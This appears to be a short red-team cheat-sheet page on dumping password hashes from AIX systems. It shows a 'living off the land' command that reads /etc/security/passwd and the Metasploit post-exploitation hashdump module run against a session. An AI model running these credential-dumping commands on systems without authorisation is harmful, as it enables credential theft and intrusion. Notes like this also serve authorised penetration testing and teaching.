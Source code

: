 # Hashdump

## Living off the Land

Password hashes

```
# cat /etc/security/passwd
```

## C2 Frameworks

```
msf > use post/aix/hashdump

msf post(aix/hashdump) > run session=<session_ID>
```